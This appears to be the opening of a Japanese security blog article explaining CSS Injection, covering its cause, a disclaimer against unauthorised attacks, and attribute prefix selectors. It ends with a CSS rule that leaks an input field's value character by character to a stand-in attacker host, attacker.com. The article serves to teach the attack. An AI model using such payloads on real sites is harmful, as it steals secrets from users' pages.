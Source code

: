 [:contents]

# はじめに
本記事ではCSS Injection(以下，CSSi)について解説します．  
CSSiについて，その原理や攻撃手法の概要を示したあと，実際に攻撃環境を実装して，HTML上に存在する機密情報を窃取する攻撃を模擬します．  
  
本記事で紹介する実装内容に関しては以下のリポジトリで公開しています．
[https://github.com/Szarny/c5517n:embed:cite]

記載内容に何かミスがあれば筆者までご連絡ください．

# 注意
```
本記事はあくまでサイバーセキュリティに関する情報共有の一環として執筆したものであり，違法な行為を助長するものではありません．
本記事に掲載されている攻撃手法を公開されているシステム等に対して実行するといった行為は決して行わないでください．

The purpose of this article is to share information about cybersecurity with the community in order to promote better understanding of modern threats and techniques.
The author does NOT condone illegal activity of any nature; please do not carry out any attacks described herein against any system(s) you do not have explicit permission to attack.
```

# CSSiの原理と概要
> CSS injection vulnerabilities arise when an application imports a style sheet from a user-supplied URL, or embeds user input in CSS blocks without adequate escaping. [1]

CSSiは，Webアプリケーションが，ユーザから入力されたCSSファイルのimportが可能な場合や，適切なエスケープなしにCSSブロック(`<style>...</style>`)を挿入可能な場合に発生する脆弱性のことです．  
CSSiが可能な場合，ただユーザのブラウザ上でレンダリングされるコンテンツのスタイルを変更できるだけでなく，機密情報の窃取を含めた様々な攻撃が可能になる可能性があります．  
  
以下では，例として，特定のタグの属性値をリークさせる手法について解説します．
  
さて，CSSには以下のような記法(前方一致セレクタ)があります．
```css
selector[attr^=val] {
    ...
}
```

例えば，以下のようなCSSが読み込まれると，`href`属性が`https://`で始まる`<a>`のテキストのみが赤色で表示されるようになります．
```css
a[href^="https"] {
    color: red;
}
```

これを悪用すると，以下のような手法が考えられます．  
下記のCSSでは，`<input>`における`value`属性の値が`a`で始まるときに，攻撃者のサーバに対してクエリ文字列`secret`の値が`a`であるHTTPリクエストが送信されます．
```css
input[value^="a"] {
    background: url(http://attacker.com/?secret=a)
}
```
